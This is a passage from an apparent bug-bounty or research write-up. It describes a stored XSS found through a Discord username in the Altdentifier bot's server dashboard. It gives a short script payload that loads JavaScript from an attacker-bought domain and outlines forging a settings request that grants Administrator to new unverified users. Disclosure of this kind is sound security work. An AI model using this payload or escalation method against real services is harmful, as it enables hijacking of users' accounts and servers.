 So now we have two things:
1. Stored XSS
2. We are able to execute it on other users and perform actions as them.

As with everything, there's always a problem lurking in the background. In our case, `Discord` would only allow `32 Characters` max as your username. While this might seem like a lot of characters, we would need open and closed `<script>` tags including the `src` attribtue in order to call our external Javascript and those script tags with the attribute took up `21 characters` alone.

With just `11 characters` to spare, I purchased a domain which was five characters in length (including the extension).

With our new payload: `<script src=//7qa.pw></script>`, we were just `1` character short from the max length. Phew.

Perfect so now we're able to load external Javascript, however the question now is what can we do? As we are able to execute Javascript in the context of the application, we are able to effectively bypass `SOP` and execute requests on behalf of the user. In order to abuse this, we would need to find some functionality that is "juicy".

While browsing the `Server Dashboard` (where you are able to modify the bot's settings), I've noticed something interesting. 

You are able to set the role of the users when they first join the server:
![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/fail.png)


Imagine if the user who joins the server (mind you not having to verify their account), is automatically granted admin privileges? That would be wicked, so let's see if we are able to achieve that.

First, I created an `Administrator` role on my tester. Next, I went into `Altdentifer` settings and checked if I am able to assign the `Administrator` role to users and spoiler alert: I was:

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/fail.png)

Awesome that's a great first hint. So in order for our external Javascript to send a request, we would need to know how a legitimate request looks like and the info it contains such as the type of request, the specific endpoint, and of course the parameters.

In order to retrieve this information, I performed a legitimate request as the `Server Owner` and just viewed the HTTP request:

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/fail.png)

Couple things to notice:

1. We see that we are sending a `POST` request to a specific endpoint which appears to contain a unique ID. If we are unable to retrieve this `ID` publically, then this vector is pretty much dead.

However I noticed this `ID` is the `ID` of our Discord Server:

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/fail.png)

Next, we can see that the request is sending form data. The specific parameter we are interested in is `in_verif_role` which is the role the user is given upon first joining the server (while they are still unverified):

